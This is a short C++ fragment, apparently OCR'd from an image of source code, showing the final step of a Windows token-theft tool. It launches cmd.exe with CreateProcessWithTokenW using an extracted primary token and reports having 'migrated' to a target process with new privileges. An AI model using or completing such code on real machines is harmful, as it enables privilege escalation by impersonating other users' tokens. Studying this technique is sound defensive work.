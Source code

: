 ```cpp
       ZeroMemory(&pi, sizeof(pi));
       wchar_t cmd[500];
       swprintf_s(cmd, L"cmd.exe /c %hs", command);
       Sleep(500);

       if (!CreateProcessWithTokenW(hPrimaryToken, 0x00000001, NULL, (LPWSTR)cmd, flag, NULL, NULL, &si, &pi))
       {
              cout << "\t(-) Somthing went wrong!!! \n\t";
              printf("     -Can't create new process with Extracted tokens, got error: %u\n", GetLastError());
              ExitProcess(0);

       }
       cout << "[***] We successfuly Migrated to requested PID. [***]\n";

       if (command != argv[2])
       {
              cout << "[***] The CMD console with new privilages was opened. [***]\n";
       }

       else
       {
              cout << "[***] Command was executed succesfully!!! [***]";
       }
       return 0;

}
```



